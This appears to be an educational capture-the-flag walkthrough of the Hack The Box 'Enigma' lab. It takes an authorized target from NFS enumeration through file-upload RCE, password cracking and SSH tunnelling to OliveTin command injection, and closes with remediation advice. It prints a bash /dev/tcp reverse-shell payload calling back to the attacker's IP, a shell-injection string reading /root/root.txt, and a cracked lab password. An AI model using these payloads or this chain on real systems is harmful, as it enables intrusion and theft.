

# Hack The Box: Enigma: Complete Learning Walkthrough

**Author:** Natapat Suebsubanant  
**Practice date:** 12 November 2026  
**Environment:** Authorized Hack The Box lab, Kali Linux in WSL2, target `enigma.htb`  
**Goal:** Understand the complete path from enumeration to a root-sensitive file read, including *why* each step worked.

> **Publishing warning:** This is a spoiler-heavy training document, not a public, sanitized report. Check Hack The Box's current write-up rules and whether Enigma is retired before publishing. Lab passwords, hashes, and flags should never be exposed in a public portfolio. The `root.txt` value and the `user.txt` value are intentionally not reproduced here. The root flag was visibly retrieved; the user flag was located and accessible as `haris`, but its contents were not captured in the supplied session transcript.

> **Evidence standard:** **Observed** means confirmed by a command/result or screenshot from this session. **Example** means a reasonable/reproducible command illustrating the method, but the precise syntax was not necessarily recorded in the transcript. This distinction matters in real penetration-testing notes.

---

## Table of contents

1. Engagement context and outcome
2. Attack-chain map
3. Setup: Kali, VPN, target names, and troubleshooting
4. Phase 1: Reconnaissance and network enumeration
5. Phase 2: NFS exposure and onboarding-document discovery
6. Phase 3: Roundcube and credential reuse
7. Phase 4: OpenSTAManager admin access and file-upload RCE
8. Phase 5: Reverse shell, TTY, and local enumeration
9. Phase 6: Application configuration, MySQL, and password hashes
10. Phase 7: Offline password cracking and `www-data` → `haris`
11. Phase 8: Linux privilege-escalation enumeration
12. Phase 9: SSH public-key access and local port forwarding
13. Phase 10: OliveTin command injection and root-sensitive file read
14. How to collect the user and root flags
15. Techniques explained deeply
16. Reporting, remediation, interview talking points, and next practice
17. Troubleshooting reference
18. Appendix: evidence, references, and glossary

---

## 1. Engagement context and outcome

Enigma was approached as an externally reachable Linux target in a **legal, authorized HTB practice environment**. The attacker used Kali Linux inside WSL2 with an HTB VPN connection. The target was at `10.129.170.71` during the final session; HTB IP addresses can change after machine resets.

### Confirmed milestones

| Milestone | Result | Evidence |
|---|---|---|
| Service discovery | SSH, HTTP, mail protocols, NFS/RPC exposed | Nmap output discussed during session |
| NFS enumeration | `/srv/nfs/onboarding` exported to `*` | `showmount -e` and successful mount |
| Credential discovery | New-employee PDF contained Roundcube access details | Onboarding PDF viewed |
| Mailbox access | Kevin and then Sarah mail access, through reused credentials | Successful webmail sessions |
| Management portal | `support_001.enigma.htb` with OpenSTAManager 2.9.8 | Portal accessed |
| Web application RCE | Uploaded PHP executed as `www-data` | `id` result with UID 33 |
| Linux user compromise | Switched to `haris` using recovered password | `su - haris -c 'id'` returned UID 1000 |
| User flag | `/home/haris/user.txt` located and readable by Haris | `ls -la ~` showed `-rw-r----- root haris` |
| SSH tunnel | Port forwarding from Kali to `127.0.0.1:1337` on Enigma | OliveTin dashboard loaded in Firefox |
| Root-sensitive file read | OliveTin backup-action injection disclosed `/root/root.txt` | Execution-results screenshot showed a 32-character flag |

**Important distinction:** The final screenshot demonstrates that a command executed through the OliveTin action could read `/root/root.txt`. A separate persistent interactive **root shell** was not demonstrated, so do not claim one in a professional report.

## 2. Attack-chain map



The most important learning is that **no single isolated step explained the full compromise**. Several weaknesses were chained: exposed internal material → reused passwords → application administrative access → dangerous upload handling → database exposure → weak/reused password → internal command injection.

---

## 3. Setup: Kali, VPN, target names, and troubleshooting

### The three terminals/contexts

| Context | Example prompt | What runs here? |
|---|---|---|
| Kali WSL2 | `pupsaeroyi@DESKTOP-MJD9EHV` | Nmap, Netcat listener, SSH client, John the Ripper, curl, browser |
| Remote web shell | `www-data@enigma:...$` | Commands executing on Enigma with the web-server UID |
| Remote user shell | `haris@enigma:~$` | Commands executing on Enigma as Haris |

**Common mistake:** A command typed into a Netcat terminal before a connection is established is not a remote command. Wait for `connect to ...` followed by a remote prompt.

### Hostnames and virtual hosts

Observed names included:

```text
10.129.170.71 enigma.htb mail001.enigma.htb support_001.enigma.htb
```

For a lab whose hostname resolution is not provided by DNS, the Kali `/etc/hosts` file can map the target IP to the necessary virtual-host names. Replace the IP if HTB changes it.

**Why names matter:** A single web-server IP can serve different sites based on the HTTP `Host` header. Visiting `http://10.129.170.71/` is not always equivalent to visiting `http://support_001.enigma.htb/`.

### VPN and WSL2 details

- The HTB VPN connection was established inside WSL2 Kali, not assumed to be inherited from Windows.
- The local `tun0` address used for the reverse shell was `10.10.14.159` in this session.
- MTU was reduced to 1200 during connection troubleshooting. This is a context-specific workaround, **not a universal required HTB setting**.
- Confirm route and connectivity before blaming a web service:

```bash
ip -br addr show tun0
ip route
ping -c 2 10.129.170.71
getent hosts support_001.enigma.htb
```

**Why these checks matter:** DNS resolution can succeed while packets still cannot reach the target. Hostname lookup, route reachability, and application response are separate layers.

---

## 4. Phase 1: Reconnaissance and network enumeration

### What was observed

Initial enumeration identified services including:

| Port | Protocol/service | Question to ask |
|---|---|---|
| 22 | SSH | Authentication modes? Usernames? Key-only? |
| 80 | HTTP | Hostnames, applications, login portals, versions? |
| 110 / 995 | POP3 / POP3S | Can email data be accessed? |
| 143 / 993 | IMAP / IMAPS | Which mail service or webmail accounts exist? |
| 111 | RPC portmapper | Is NFS exposed? |
| 2049 | NFS | Which filesystem exports are accessible? |
| High ephemeral ports | RPC helpers | NFS mount/status services? |

### Representative scanning workflow

These are **example commands** corresponding to the observed work; the exact initial Nmap command lines were not fully retained:

```bash
# Find open TCP services and collect default safe scripts/version hints
nmap -sC -sV -oN enigma-initial.nmap 10.129.170.71

# Expand coverage if needed
nmap -p- --min-rate 1000 -oN enigma-all-ports.nmap 10.129.170.71

# Focused NFS/RPC enumeration
rpcinfo -p 10.129.170.71
showmount -e 10.129.170.71
```

### Explanation

- `-sC`: run Nmap's default NSE scripts.
- `-sV`: probe services to identify products/versions.
- `-p-`: scan all 65,535 TCP ports rather than the default top set.
- `-oN`: save evidence in normal text format.
- `rpcinfo -p`: display registered RPC programs and ports.
- `showmount -e`: query the NFS mount daemon for exported paths.

**Do not confuse service exposure with vulnerability.** An open port is a fact; exploitability must be validated through authorization, access controls, configuration, or a real proof of impact.

### Web and vhost enumeration

The session also explored web virtual-host discovery with `ffuf` and investigated the visible Roundcube service. These did not produce the decisive lead. The eventual management hostname came from **email content**, not from a successful vhost brute-force result.

**Lesson:** A broad scan can be useful, but the highest-value next move is often to follow real evidence rather than exhaust massive wordlists.

---

## 5. Phase 2: NFS exposure and onboarding-document discovery

### Observed result

```text
/srv/nfs/onboarding *
```

The wildcard `*` indicates a broadly exported NFS directory. Actual permission semantics also depend on the server-side NFS configuration and filesystem permissions. In the lab, read access succeeded.

### Mounting the share

A working command used during the session was:

```bash
sudo mkdir -p /mnt/enigma-nfs
sudo mount -v -t nfs \
  -o ro,vers=3,proto=tcp,mountproto=tcp \
  10.129.170.71:/srv/nfs/onboarding \
  /mnt/enigma-nfs

ls -lah /mnt/enigma-nfs
```

The mount was intentionally **read-only (`ro`)**, which is appropriate when gathering evidence without changing the server.

### What was discovered

A PDF named `New_Employee_Access.pdf` provided employee onboarding information, including:

- A Roundcube mailbox for the employee Kevin.
- The email host `mail001.enigma.htb`.
- A working employee credential pair.

Credentials are deliberately omitted from this walkthrough's shareable text. **The important finding is not the particular password string; it is that a remotely readable onboarding document contained an active credential.**

### Why NFS matters

NFS exposes filesystems over the network. It is designed to make file access convenient, but it is dangerous when:

1. The export is reachable from an untrusted network.
2. The allowed-client list is too broad.
3. Sensitive onboarding documents are stored in the share.
4. Active secrets appear in those documents.

This is a **sensitive-information exposure** that directly enabled the next attack stage.

---

## 6. Phase 3: Roundcube and credential reuse

### Initial mailbox access

The documented Roundcube installation was version **1.6.16** on `mail001.enigma.htb`. Kevin's onboarding credentials were used for a successful lab login.

### Decisive discovery: reused mailbox password

The session confirmed that the same password also allowed login to a different mailbox, **Sarah's**. This is a **credential-reuse problem**, not a technical bypass of Roundcube authentication.

Why that matters:

- Proper authentication still occurred.
- The weakness was that different accounts accepted the same secret.
- An attacker who learns one password can test whether it is valid for another account, within authorized testing scope.

### Sarah's mailbox revealed the management portal

An email disclosed:

```text
support_001.enigma.htb
```

The email also contained administrative access details for an **OpenSTAManager** portal. The session used that access to reach the portal's administrative interface.

**Lessons:**

- Mailboxes can contain internal URLs, reset links, service-account details, and other valuable leads.
- Credentials found in communication channels can open access beyond the original mailbox.
- A real report should explain *how* a credential was obtained and where it worked, while protecting its exact value.

---

## 7. Phase 4: OpenSTAManager admin access and file-upload RCE

### Product and vulnerability

The observed portal was **OpenSTAManager 2.9.8**. The session used its administrative **Tools → Updates** module-upload workflow to upload a ZIP archive containing PHP files that became reachable under `/modules/`.

This behavior aligns with **CVE-2026-38751**, an arbitrary file-upload weakness in the module update functionality of affected OpenSTAManager versions. See the advisory in the references.

### Why file uploads are sensitive

Uploading a file is not automatically code execution. The danger appears when:

1. The application accepts dangerous file types or archives containing them.
2. It extracts files into a web-accessible directory.
3. The web server executes those files, for example `.php` files.
4. The attacker can reach the uploaded path over HTTP.

### Controlled proof before a reverse shell

A ZIP with the structure below was uploaded through the administrative update page:

```text
run/
├── MODULE
├── probe.php
└── check.php
```

A marker file concept:

```php
<?php echo 'ENIGMA_LAB_PROBE_OK'; ?>
```

The observed request:

```text
http://support_001.enigma.htb/modules/run/probe.php
```

returned the marker text. This established that **uploaded PHP reached the executable web root**.

A second PHP file ran a harmless identity check:

```php
<?php
  echo shell_exec('id; whoami; pwd');
?>
```

Observed output:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/html/openstamanager/modules/run
```

### What this proved

- The uploaded PHP executed server-side.
- The resulting process ran as the web-service account **`www-data`**, not yet as `root`.
- The current server filesystem directory was in the OpenSTAManager module tree.

### Establishing a reverse shell

A second archive, `enigma-shell.zip`, contained a valid module manifest under `shell/MODULE` and a PHP connector under `shell/connect.php`.

On Kali:

```bash
nc -lvnp 4444
```

**Observed lab payload** used by the uploaded PHP file:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'");
?>
```

The browser then requested:

```text
http://support_001.enigma.htb/modules/shell/connect.php
```

Netcat showed an inbound connection from Enigma and the remote shell prompt:

```text
www-data@enigma:~/html/openstamanager/modules/shell$
```

### Explain the payload

- `bash -i`: start an interactive Bash shell.
- `/dev/tcp/10.10.14.159/4444`: Bash's TCP pseudo-device to reach the attacker listener.
- `>&`: redirect output, including errors, to the connection.
- `0>&1`: connect standard input to the same stream.
- `nc -lvnp 4444`: wait for the incoming TCP connection and expose shell input/output.

**The listener and the HTTP request are both required.** Opening Netcat alone does not create a reverse shell; the PHP endpoint must execute and call back.

---

## 8. Phase 5: Reverse shell, TTY, and local enumeration

### Why the reverse shell initially felt broken

The first reverse shell did not have full terminal control. Bash emitted:

```text
cannot set terminal process group ... Inappropriate ioctl for device
no job control in this shell
```

Interactive password prompts, line editing, and control keys can behave strangely with such a shell. An incorrect-looking password prompt is not necessarily proof the password itself is wrong.

### Upgrade to a PTY

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
tty
```

Observed `tty` output:

```text
/dev/pts/1
```

**What is a PTY?** A *pseudoterminal* gives a process a terminal-like device. It often makes `su`, prompts, and interactive programs behave more predictably. It does not grant extra privileges by itself.

### Local user enumeration

```bash
ls -la /home
getent passwd haris kevin sarah it
```

Observed users:

```text
haris:x:1000:1000:,,,:/home/haris:/bin/bash
kevin:x:1001:1001::/home/kevin:/usr/sbin/nologin
sarah:x:1002:1002::/home/sarah:/usr/sbin/nologin
it:x:1003:1003::/home/it:/usr/sbin/nologin
```

**Why that matters:** `haris` had `/bin/bash` as a login shell, while the other service/mail accounts had `/usr/sbin/nologin`. That made Haris a particularly relevant target for shell access, though it did not by itself reveal a password.

---

## 9. Phase 6: Application configuration, MySQL, and password hashes

### Identify the real configuration

Application directory:

```text
/var/www/html/openstamanager
```

Two files were present:

- `config.php`: a template with placeholder values.
- `config.inc.php`: the effective database configuration containing real connection values.

**Learning:** Do not assume a file named `config.php` has the operational credentials. Check which configuration is actually loaded and which values are placeholders. In a real assessment, examine only files within authorization and avoid copying unnecessary secrets into reports.

### Query MySQL without displaying the password in the command line

On Enigma, the `mysql` CLI existed while `mariadb` was not available in the tested shell. Because interactive use was unreliable over Netcat, the session queried using a **single noninteractive command**:

```bash
cd /var/www/html/openstamanager
MYSQL_PWD="$(php -r 'require "config.inc.php"; echo $db_password;')" \
  mysql -u brollin -D openstamanager \
  -e "SHOW TABLES LIKE '%user%';"
```

**Important:** This still handles a sensitive database secret in the shell environment. It avoided pasting the actual value into the command, but environment variables are not a universal secret-management solution. In production use proper credential-management controls.

Observed tables:

```text
zz_check_user
zz_user_sedi
zz_users
```

### Inspect the schema first

```sql
DESCRIBE zz_users;
```

Observed fields included:

```text
id, username, password, email, idanagrafica, idgruppo,
enabled, created_at, updated_at, reset_token, image_file_id, options
```

**Why inspect before querying?** The exact database schema may differ from guesses. `DESCRIBE` gives column names and types, avoiding blind queries and unnecessary data access.

### Retrieve minimal account metadata

```sql
SELECT id, username, idgruppo, enabled
FROM zz_users
LIMIT 20;
```

Accounts included `admin` and `haris`. A later query examined password representations, without needing to dump entire records into the write-up:

```sql
SELECT username,
       CHAR_LENGTH(password) AS hash_length,
       LEFT(password, 7) AS hash_prefix
FROM zz_users;
```

Observed: both account password fields were **60 characters** long with the **`$2y$10$`** prefix.

### Explain bcrypt without memorizing it blindly

A typical bcrypt string looks like:

```text
$2y$10$<salt-and-hash-encoded-content>
```

- `$2y$`: bcrypt identifier for this encoding variant.
- `10`: cost factor (work factor, roughly 2^10 expansion in its key setup, not 10 guesses).
- The remaining encoded portion contains salt and password-derived output.
- A password hash is not something you “decrypt”; attackers attempt **candidate guesses**, hash each with the same parameters, and check for a match.

**Key distinction:** A strong hash algorithm does not rescue a weak or reused password from an effective wordlist attack.

---

## 10. Phase 7: Offline cracking and `www-data` → `haris`

### Extract the specific Haris bcrypt hash

A password hash for `haris` was obtained from the database and saved in Kali as:

```text
~/haris.hash
```

The full hash is redacted here; it was a 60-character bcrypt `$2y$10$...` string.

### John the Ripper

The session installed or made available the Kali `wordlists` package and used RockYou:

```bash
sudo apt install wordlists
john --format=bcrypt \
  --wordlist=/usr/share/wordlists/rockyou.txt \
  ~/haris.hash

# Display a recovered candidate after a successful run
john --show --format=bcrypt ~/haris.hash
```

**Observed recovery:** Haris's lab password was `bestfriends`.

### Why offline attacks differ from online attacks

| Online guessing | Offline cracking |
|---|---|
| Send requests to a service | Test a stolen hash locally |
| Limited by network, lockouts, detection | Limited mainly by hash cost and hardware |
| Login events may be logged | No target login attempt per guess |
| Can cause account lockouts | No direct lockout during guessing |

Do not confuse these when describing the attack. **John cracked an extracted database hash locally**. It did not brute-force SSH directly.

### The critical reused-password step

From the remote `www-data` shell:

```bash
su - haris -c 'id'
# Password: [recovered lab password]
```

Observed response:

```text
uid=1000(haris) gid=1000(haris) groups=1000(haris),100(users)
```

Then:

```bash
su - haris
whoami
id
pwd
```

Prompt became:

```text
haris@enigma:~$
```

### Why `su` worked, but `sudo` did not

- `su - haris`: authenticate **as Haris** and start a Haris login session.
- `sudo -l`: ask what commands **Haris is permitted to run as another user**, often root.

Observed:

```text
Sorry, user haris may not run sudo on enigma.
```

This is a separate permission boundary. A legitimate Haris password does not imply sudo authorization.

---

## 11. Phase 8: Linux privilege-escalation enumeration

### Locate the user flag

```bash
ls -la ~
```

Observed:

```text
-rw-r----- 1 root haris 33 ... user.txt
```

File mode interpretation:

```text
-rw-r-----
  ^ owner (root): read + write
     ^ group (haris): read
        ^ others: no access
```

Although the file was owned by `root`, it belonged to group `haris`, which had read permission. Therefore:

```bash
cat /home/haris/user.txt
```

would read the user flag once run in the Haris shell. **The supplied transcript contains the file listing, not a captured user-flag value.**

### What we checked

```bash
sudo -l
find / -type f -perm -4000 2>/dev/null
getcap -r / 2>/dev/null
ls -la /etc/cron.d /etc/cron.daily /opt /usr/local/bin 2>/dev/null
```

The SUID list mostly contained common utilities (`passwd`, `su`, `sudo`, `mount`, and similar). Capabilities included standard `cap_net_raw` on network tools, plus capabilities on `snap-confine` and `gst-ptp-helper`. None was proved exploitable in this session.

**Why this was important:** SUID and Linux capabilities sometimes allow privilege escalation, but their mere presence is not proof of a vulnerability.

### The key clue

Observed directory/binary:

```text
/opt/OliveTin
/usr/local/bin/OliveTin
```

This shifted attention away from generic Linux tricks toward a **specific installed management service**.

### Why the original process listing was misleading

The first command included:

```bash
ps auxww | grep -E 'root|cron|backup|python|bash' | head -50
```

This mostly returned kernel threads because root-owned kernel processes appeared first. A more focused way to inspect user-space root processes is:

```bash
ps -eo user,pid,ppid,args --no-headers \
  | awk '$1=="root" && $4 !~ /^\[/'
```

The decisive evidence in the session, however, was the OliveTin installation discovered under `/opt` and `/usr/local/bin`.

---

## 12. Phase 9: SSH public-key access and local port forwarding

### Why pivot through SSH?

OliveTin was reachable on **Enigma's own loopback interface**, at `127.0.0.1:1337`. The Kali browser cannot directly connect to the target's loopback IP: `127.0.0.1` on Kali means **Kali itself**.

SSH local port forwarding creates an encrypted route:

```text
Kali Firefox
  -> Kali localhost:1337
  -> SSH connection to Enigma:22
  -> Enigma localhost:1337
  -> OliveTin web interface
```

### Create a local SSH key pair

From Kali:

```bash
ssh-keygen -q -t ed25519 -N '' -f ~/.ssh/enigma_haris
cat ~/.ssh/enigma_haris.pub
```

- Private key: `~/.ssh/enigma_haris`: **never publish**.
- Public key: `~/.ssh/enigma_haris.pub`: can be added to an authorized account.

### Authorize the key on Haris's account

From the Haris shell:

```bash
mkdir -p ~/.ssh
chmod 700 ~/.ssh

# Insert the entire public-key line from Kali; one key per line.
printf '%s\n' 'ssh-ed25519 <YOUR_PUBLIC_KEY_BLOB> kali@lab' \
  >> ~/.ssh/authorized_keys

chmod 600 ~/.ssh/authorized_keys
ls -ld ~ ~/.ssh ~/.ssh/authorized_keys
```

**Why permissions matter:** SSH typically enforces ownership/permission restrictions on the home directory, `.ssh`, and `authorized_keys`. If the file is missing, malformed, or the directory is insecure, authentication may fail with `Permission denied (publickey)`.

### Connect and forward port 1337

From Kali (the working pattern used in the session):

```bash
ssh -i ~/.ssh/enigma_haris \
  -o IdentitiesOnly=yes \
  -o KexAlgorithms=curve25519-sha256 \
  -N -L 1337:127.0.0.1:1337 \
  haris@10.129.170.71
```

**Flags explained:**

- `-i`: select your private SSH key.
- `IdentitiesOnly=yes`: tell SSH to use explicitly specified identities.
- `-N`: do not open a shell; keep the session for forwarding only.
- `-L local_port:target_host:target_port`: create local TCP forwarding.
- `KexAlgorithms=...`: explicitly choose a supported key-exchange algorithm; not universally required.

The first SSH attempt encountered a host-key confirmation prompt. A later attempt failed with `Permission denied (publickey)` until `authorized_keys` was corrected. Eventually, **Kali Firefox successfully loaded the OliveTin dashboard at**:

```text
http://127.0.0.1:1337
```

Its footer displayed **OliveTin 3000.10.0**. The dashboard showed actions including **Backup Database**.

### Why the terminal looked frozen

Because `-N` requests *no remote command*, a successful tunnel can sit without producing a prompt. That is expected. Closing this SSH process also closes the forwarding path.

---

## 13. Phase 10: OliveTin command injection and root-sensitive file read

### Observed application and vulnerability

The browser identified **OliveTin 3000.10.0**. Its **Backup Database** action exposed a **Password** input field.

This matches **CVE-2026-27626** (CWE-78): a weakness in OliveTin's handling of `password`-typed inputs in shell-mode actions, allowing shell metacharacters to reach command execution. The vendor advisory states the issue affects versions through 3000.10.0 and lists 3000.10.1 as fixed. See references.

### Observed lab proof

In the authorized HTB dashboard:

1. Opened **Backup Database**.
2. Supplied a crafted value in the Password field.
3. Ran the action.
4. Read the result in the **Execution Results: Backup Database** page.

Payload used during the lab:

```text
x'; cat /root/root.txt; #
```

The result panel showed `Status: Completed`, followed by a `mysqldump` warning/usage message and then a 32-character flag value. The value itself is omitted here.

### Read the payload left to right

| Segment | Purpose |
|---|---|
| `x'` | Supply a short value and terminate a quoted context in the vulnerable command construction |
| `;` | Introduce a new shell command |
| `cat /root/root.txt` | Attempt to read a protected file |
| `;` | Separate from whatever follows |
| `#` | Make the shell ignore trailing content on the command line |

**Precision note:** The full OliveTin action template was not captured, so we cannot assert its exact string concatenation or precise quote placement. We **can** assert that the injected command's output appeared, which demonstrates executable command injection in the tested action.

### Why `mysqldump` displayed an error but the attack succeeded

The original backup command was malformed by the injection. It printed usage information, but the injected `cat` command was separately interpreted by a shell and ran. The expected administrative task can fail **while the malicious secondary command succeeds**.

### What level of privilege was demonstrated?

Because the response included `/root/root.txt` contents, the OliveTin action's effective execution context **could access that root-protected file**. The session did **not** independently run `id` through that vector or open a persistent root shell. The defensible finding is **command injection leading to unauthorized disclosure of a root-sensitive file**, with potential elevated impact depending on the service user and command privileges.

### Access context

The OliveTin UI was reached through an authenticated SSH tunnel to Haris. The lab screenshot showed the actions page and a “Login” label, but the transcript does not establish the exact OliveTin authentication configuration or whether the same action would be reachable by an unauthenticated external attacker. Do not assert unauthenticated internet exposure without proving it.

---

## 14. How to collect the user and root flags

The root flag was observed in the OliveTin execution-result screenshot. The user flag's **path and access permissions** were observed, but the content was not included in the supplied transcript.

### User flag (directly as Haris)

```bash
cat /home/haris/user.txt
```

### User flag (through the already demonstrated lab command injection)

Inside the **Backup Database → Password** input:

```text
x'; cat /home/haris/user.txt; #
```

### Root flag (already obtained through the lab action)

```text
x'; cat /root/root.txt; #
```

**Flag hygiene:** Submit both in HTB itself. Do not commit the values to your GitHub write-up or a recruiting portfolio.

---

## 15. Techniques explained deeply

### A. Enumeration versus exploitation

**Enumeration** gathers facts: ports, services, version strings, paths, permissions, exports, user accounts. **Exploitation** validates that one of those facts permits unauthorized access or behavior. Good methodology moves from discovery to *testable hypotheses*, not random exploitation.

### B. Authentication versus authorization

- Authentication: “Who are you?” Kevin, Sarah, Haris, admin.
- Authorization: “What are you allowed to do?” Access a mailbox, upload a module, read a file, execute a privileged action.
- Haris's `su` password authenticated successfully while `sudo -l` still denied privileged sudo operations. These controls answer different questions.

### C. Account compromise versus privilege escalation

`www-data → haris` was an **account pivot**, achieved by recovering a password hash from a web-app database and discovering that the password also authenticated to the Unix account. `haris → root-sensitive read` was the later **privilege-boundary violation** through a management tool.

### D. Hashing, encryption, and passwords

A password stored as bcrypt is generally **hashed**, not reversibly encrypted. Cracking is a search for a candidate that produces the same hash. Costs and unique salts make guesses harder, but common words remain guessable.

### E. File permissions

`root:haris` ownership and `640` mode are enough for group `haris` to read `user.txt`. The file's owner is not the only access-control factor; group bits and ACLs matter too.

### F. Why a reverse shell is different from SSH

The PHP reverse shell is a program executed by the target that initiates a TCP connection back to Kali. SSH, by contrast, is an authenticated, protocol-managed connection to the target's SSH server. An SSH tunnel is valuable for safely reaching **target-local services** without requiring those services to listen on public network interfaces.

### G. Root-owned tools are not automatically root exploits

SUID bits, capabilities, cron jobs, and root-owned processes require *context*. The session found familiar SUID tools and no demonstrated exploitable sudo rule. The actual final weakness was a **specific application-input validation defect**, not a generic kernel privilege escalation.

### H. One vulnerability may not be enough

This lab is particularly useful for consulting interviews because the reportable risk arises from **combinations**: a shared directory containing sensitive credentials becomes much more serious when a second mailbox reuses them, and the second mailbox leads to an admin portal capable of RCE.

---

## 16. Reporting, remediation, interview talking points, and next practice

### A high-quality evidence log should contain

For each step record: timestamp, source host, target IP/hostname, exact command or browser action, minimum relevant output, interpretation, and any uncertainty. Never treat an unverified speculation as a tested finding.

### Core remediations from this lab

1. Restrict NFS exports to necessary hosts or management segments; remove active credentials from onboarding PDFs.
2. Enforce unique passwords and MFA for email and administrative accounts; monitor anomalous cross-account use.
3. Harden application update/upload features: strict formats, safe extraction, no executable uploads into web-accessible paths, and least-privileged application runtime.
4. Protect application configuration and database secrets; reduce DB account permissions; protect hash dumps.
5. Use unique strong passwords for app and OS accounts and monitor credential reuse.
6. Restrict internal management panels to trusted roles and networks; avoid running command tools with unnecessary elevated privileges.
7. Upgrade OliveTin beyond the affected version and ensure shell-mode actions never interpolate untrusted input into shell commands.

### A two-minute interview version

> “On an authorized HTB Linux target, I started with network enumeration and found an NFS onboarding export. That exposed mail credentials. Password reuse let me access a second mailbox containing an admin portal URL and credentials. In OpenSTAManager I validated a module-upload weakness by placing a harmless PHP marker and executing `id` as `www-data`. After gaining a reverse shell, I inspected the application’s effective DB configuration, queried the users table, and used John the Ripper to recover a weak bcrypt-backed password. The password also worked for the Linux user Haris, which gave access to the user-flag directory. I then used SSH local port forwarding to reach an internal OliveTin management dashboard and confirmed command injection in its backup action by reading a root-protected flag file. The major lesson was how small access-control and password weaknesses compound into a full attack chain.”

### Recommended personal exercises

- Rebuild the chain from memory using only an Nmap evidence file.
- Explain `showmount`, NFS exports, `su`, Linux mode `640`, bcrypt prefixes, and `ssh -L` aloud.
- Practice writing a *minimal-impact* proof for each vulnerability before a full exploit.
- Write a finding with **impact**, **exact evidence**, **remediation**, and **validation steps**.
- Create a sanitized diagram and report for portfolio use after the machine is eligible for public publication.

---

## 17. Troubleshooting reference

| Symptom | Likely explanation | Check |
|---|---|---|
| `getent hosts` resolves but site unreachable | Routing/VPN issue | `ip route`, `tun0`, ping/tcp reachability |
| Netcat only says `listening` | Payload was not triggered | Open uploaded PHP URL after starting listener |
| `su` input acts strangely | Reverse shell lacks TTY support | Use `python3 -c 'import pty; pty.spawn("/bin/bash")'` |
| `su - haris -c 'id'` returns to `www-data` | `-c` runs one command then exits | Use `su - haris` for an interactive Haris shell |
| `sudo -l` says not allowed | No sudo rule for Haris | Investigate other verified boundaries |
| `find / -perm -4000` prints normal tools | SUID is common | Identify deviations and verify exploitability |
| SSH asks to confirm host key | New or changed endpoint | Verify fingerprint before accepting |
| `Permission denied (publickey)` | Key missing, malformed, wrong ownership/permissions | Check `.ssh/authorized_keys`, matching private key, ownership |
| `ssh -N -L ...` seems frozen | Expected behavior | Open browser to local forwarded port |
| OliveTin `mysqldump` prints usage | Injected command disrupted backup syntax | Check whether a separate proof output followed |
| `root.txt` accessible but no root prompt | File read is not persistent shell | Report the precise observed outcome |
| Reverse-shell terminal closed | Connection lost, uploaded PHP may remain | Start listener again and retrigger PHP if machine not reset |

---

## 18. Appendix: selected original evidence and references

### A. Evidence snippets

**Web code execution as www-data**

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/html/openstamanager/modules/run
```

**Haris authentication**

```text
su - haris -c 'id'
uid=1000(haris) gid=1000(haris) groups=1000(haris),100(users)
```

**Haris user flag location**

```text
-rw-r----- 1 root haris 33 ... user.txt
```

**Noteworthy local software**

```text
/opt/OliveTin
/usr/local/bin/OliveTin
```

**Browser observation:** `http://127.0.0.1:1337` → OliveTin version `3000.10.0`; visible **Backup Database** action.

**Final proof:** OliveTin `Execution Results: Backup Database` displayed a `mysqldump` usage error followed by a 32-character value from `/root/root.txt`. Exact flag omitted.

### B. Authoritative vulnerability references

- OpenSTAManager: CVE-2026-38751: https://github.com/advisories/GHSA-rm34-fg4m-39mw
- OliveTin: CVE-2026-27626: https://github.com/OliveTin/OliveTin/security/advisories/GHSA-49gm-hh7w-wfvf
- NVD record for OliveTin: https://nvd.nist.gov/vuln/detail/CVE-2026-27626
- Nmap reference guide: https://nmap.org/book/man.html
- OpenSSH SSH local forwarding reference: https://man.openbsd.org/ssh
- Linux capabilities overview: https://man7.org/linux/man-pages/man7/capabilities.7.html
- John the Ripper documentation: https://www.openwall.com/john/doc/

### C. Mini glossary

| Term | Meaning |
|---|---|
| RCE | Remote Code Execution: execution of attacker-influenced code on a remote system |
| NFS | Network File System: access to directories/files across a network |
| RPC | Remote Procedure Call: mechanism used by services such as NFS |
| Vhost | Virtual host: different web sites served on the same IP, distinguished by hostname |
| Reverse shell | Target initiates a connection to an operator-controlled listener and exposes a command shell |
| PTY | Pseudoterminal: terminal-like device used by interactive processes |
| SUID | Set-user-ID: executable can run with file owner's effective UID |
| Linux capability | Fine-grained privilege assigned to a process or executable |
| bcrypt | Password hashing scheme with salt and tunable work factor |
| Offline cracking | Test candidate passwords against a locally held hash |
| Local port forwarding | SSH transport for local TCP connections to a host/port on the remote side |
| Command injection | Improper handling of input causes attacker-controlled shell/OS commands to execute |
| CWE | Common Weakness Enumeration: taxonomy of software weaknesses |
| CVE | Common Vulnerabilities and Exposures: identifier for a published vulnerability |

---

**Learning conclusion:** The strongest skill demonstrated in Enigma was not remembering one exploit string. It was maintaining the evidence chain across *networking, identity, web applications, databases, Linux permissions, password security, and internal management tools*: and knowing which observations proved what.
